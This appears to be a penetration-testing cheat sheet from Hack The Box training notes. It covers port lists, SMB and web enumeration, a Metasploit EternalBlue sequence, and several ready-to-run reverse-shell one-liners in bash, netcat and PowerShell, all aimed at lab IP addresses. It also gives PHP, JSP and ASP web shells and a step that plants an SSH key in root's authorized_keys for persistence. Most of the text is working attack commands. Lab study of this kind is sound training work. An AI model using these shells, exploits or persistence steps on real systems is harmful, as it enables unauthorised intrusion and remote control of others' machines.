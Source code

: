 ## Getting started Module 

Commong ports : 

| Port | Protocol    | Service        |
|------|-------------|----------------|
| 20/21| (TCP)       | FTP            |
| 22   | (TCP)       | SSH            |
| 23   | (TCP)       | Telnet         |
| 25   | (TCP)       | SMTP           |
| 80   | (TCP)       | HTTP           |
| 161  | (TCP/UDP)   | SNMP           |
| 389  | (TCP/UDP)   | LDAP           |
| 443  | (TCP)       | SSL/TLS (HTTPS)|
| 445  | (TCP)       | SMB            |
| 3389 | (TCP)       | RDP            |

SMB 

    nmap --script smb-os-discovery.nse -p445 10.10.10.40
  
    smbclient -N -L \\\\10.129.42.253

    smbclient \\\\10.129.42.253\\users

    // to add user

    smbclient -U bob \\\\10.129.42.253\\users

gobuster dir :

    gobuster dir -u http://10.10.10.121/ -w /usr/share/dirb/wordlists/common.txt

gobuster dns :

    gobuster dns -d inlanefreight.com -w /usr/share/SecLists/Discovery/DNS/namelist.txt

WhatWeb to extract the version of webservers, frameworks ...etc

    whatweb 10.10.10.121
    whatweb --no-errors 10.10.10.121

Search for common exploits :

1. Downlaod exploitdb  `sudo apt install exploitdb -y`
2. Search for the exploit `searchsploit openssh 7.2`

We can also utilize online exploit databases to search for vulnerabilities, like Exploit DB, Rapid7 DB, or Vulnerability Lab.

Metasploit example : 

1. search exploit eternalblue
2. use exploit/windows/smb/ms17_010_psexec
3. set RHOSTS 10.10.10.40 
4. set LHOST tun0
5. check
6. exploit 

Rev shells 

    bash -c 'bash -i >& /dev/tcp/10.10.10.10/1234 0>&1'

    rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.10.10 1234 >/tmp/f

    powershell -nop -c "$client = New-Object System.Net.Sockets.TCPClient('10.10.10.10',1234);$s = $client.GetStream();[byte[]]$b = 0..65535|%{0};while(($i = $s.Read($b, 0, $b.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($b,0, $i);$sb = (iex $data 2>&1 | Out-String );$sb2 = $sb + 'PS ' + (pwd).Path + '> ';$sbt = ([text.encoding]::ASCII).GetBytes($sb2);$s.Write($sbt,0,$sbt.Length);$s.Flush()};$client.Close()"

Upgrading TTY :

    python -c 'import pty; pty.spawn("/bin/bash")'

    www-data@remotehost$ ^Z

    MysterPedro@htb[/htb]$ stty raw -echo;fg

    [Enter]
    [Enter]
    www-data@remotehost$

after we get interactive shell

either we set Term to `export TERM=xterm` or 


    MysterPedro@htb[/htb]$ echo $TERM

    xterm-256color

    MysterPedro@htb[/htb]$ stty size

    67 318

    www-data@remotehost$ export TERM=xterm-256color

    www-data@remotehost$ stty rows 67 columns 318

Web Shell : 

    php : <?php system($_REQUEST["cmd"]); ?>
    php : <?php system ("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.14.2 9443 >/tmp/f"); ?>
    jsp : <% Runtime.getRuntime().exec(request.getParameter("cmd")); %>
    asp : <% eval request("cmd") %>

Uploading a Web Shell :
Either we upload it thought a vuln, or 

    echo '<?php system($_REQUEST["cmd"]); ?>' > /var/www/html/shell.php

    http://SERVER_IP:PORT/shell.php?cmd=id

SSH Keys : 
    ssh-keygen -f key
    echo "ssh-rsa AAAAB...SNIP...M= user@parrot" >> /root/.ssh/authorized_keys
    chmod 600 key
    ssh root@10.10.10.10 -i key

Run sudo for other user : 

    MysterPedro@htb[/htb]$ sudo -l

    (user : user) NOPASSWD: /bin/echo

    MysterPedro@htb[/htb]$ sudo -u user /bin/echo Hello World!

    Hello World!
Format xml grep to `xmllint --format -`
